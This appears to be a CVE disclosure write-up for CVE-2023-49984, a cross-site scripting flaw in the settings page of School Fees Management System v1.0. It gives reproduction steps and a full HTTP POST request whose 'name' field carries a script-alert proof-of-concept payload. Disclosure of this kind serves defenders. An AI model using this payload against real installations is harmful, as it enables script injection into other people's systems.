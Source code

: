 # CVE-2023-49984
# School Fees Management System v1.0 - Cross-Site Scripting (XSS) Vulnerability in "name" field/parameter on "/management/settings"

**Description**: A cross-site scripting (XSS) vulnerability in the component "/management/settings" of School Fees Management System v1.0 allows attackers to execute arbitrary web scripts or HTML via a crafted payload injected into the name parameter.  

**Vulnerable Product Version**: School Fees Management System v1.0  
**CVE Author**: Geraldo Alcântara  
**Date**: 28/11/2023  
**Confirmed on**: 19/12/2023  
**CVE**: CVE-2023-49984  
**Tested on**: Windows  
### Steps to reproduce:  
To exploit the vulnerability, a user with appropriate permissions must access the "/ci_fms/admin/management/settings" page. On this page, the user should edit the fields in the general settings. The malicious payload needs to be inserted into the "name" or "phone" or "address" or "bank" or "acc_name" or "acc_number".  
### Resquest:  
```
POST /ci_fms/admin/action/main_settings HTTP/1.1
Host: 192.168.68.148
Content-Length: 209
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.68.148
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.68.148/ci_fms/admin/management/settings
Accept-Encoding: gzip, deflate, br
Accept-Language: pt-BR,pt;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: ci_session=qvpbijnrhr1a3stolsuvdglpo8a7mb3h
Connection: close

name=%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E&phone=09123456987&address=14+Street%2C+There+City%2C+Anywhere%2C+2306&bank=ABC+Bank&acc_name=Our+Best+School&acc_number=123456789874&session=2022-2023
```

Discoverer(s)/Credits:  
Geraldo Alcântara
